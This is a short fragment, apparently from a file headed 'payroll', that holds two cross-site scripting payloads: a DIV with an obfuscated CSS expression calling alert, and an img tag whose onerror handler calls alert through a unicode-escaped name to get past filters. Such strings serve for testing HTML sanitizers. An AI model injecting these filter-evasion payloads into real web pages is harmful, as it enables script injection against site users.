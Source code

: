 # payroll
test<DIV ST+YLE="width: expression(alert('XSS'));" />test
<
<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
